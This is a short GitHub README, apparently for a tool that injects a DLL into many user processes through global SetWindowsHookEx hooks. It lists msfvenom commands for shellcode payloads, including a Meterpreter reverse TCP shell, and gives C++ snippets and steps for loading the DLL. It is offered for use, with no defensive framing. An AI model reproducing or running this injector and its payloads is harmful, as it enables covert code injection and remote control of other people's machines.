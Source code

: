 # Global-SetWindowsHookEx-Injector
Hooks a bunch of user processes with a dll that launches a thread that spawns a messagebox whenever it is loaded
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"`
`msfvenom -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444 -f c -o file.txt`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs
